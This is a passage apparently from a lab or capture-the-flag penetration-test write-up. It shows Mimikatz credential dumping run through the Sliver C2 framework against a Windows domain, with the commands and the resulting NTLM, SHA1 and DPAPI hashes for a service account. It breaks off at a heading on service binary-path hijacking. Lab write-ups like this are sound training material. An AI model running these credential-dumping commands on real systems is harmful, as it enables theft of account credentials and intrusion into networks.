 ```Bash
# Using Sideload
sideload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe "token::elevate privilege::debug sekurlsa::logonpasswords exit"

# Sliver build-in Mimikatz
sliver (puppet-mtls) > mimikatz "token::elevate privilege::debug sekurlsa::logonpasswords exit"                                         
                                                                                                                                        
[*] Successfully executed mimikatz                                                                                                      
[*] Got output: 

Authentication Id : 0 ; 589636 (00000000:0008ff44)                                                                                      
Session           : Service from 0                                                                                                      
User Name         : svc_puppet_win_t1                                                                                                   
Domain            : PUPPET                                                                                                              
Logon Server      : DC01                                                                                                                
Logon Time        : 5/21/2025 11:09:51 PM                                                                                               
SID               : S-1-5-21-3066630505-2324057459-3046381011-1131                                                                      
        msv :                                                                                                                           
         [00000003] Primary                                                                                                             
         * Username : svc_puppet_win_t1                                                                                                 
         * Domain   : PUPPET                                                                                                            
         * NTLM     : 7<--SNIP-->6                                                                                  
         * SHA1     : e4b6c57180670c42d1894db1daebe833787ad23b                                                                          
         * DPAPI    : abe71d756f0b2d9e69b803833ef4869d                                                                                  
        tspkg :                                                                                                                         
        wdigest :                                                                                                                       
         * Username : svc_puppet_win_t1                                                                                                 
         * Domain   : PUPPET                                                                                                            
         * Password : (null)                                                                                                            
        kerberos :                                                                                                                      
         * Username : svc_puppet_win_t1                                                                                                 
         * Domain   : PUPPET.VL                                                                                                         
         * Password : (null)   
```
# Service Abuse via Binary Path Hijack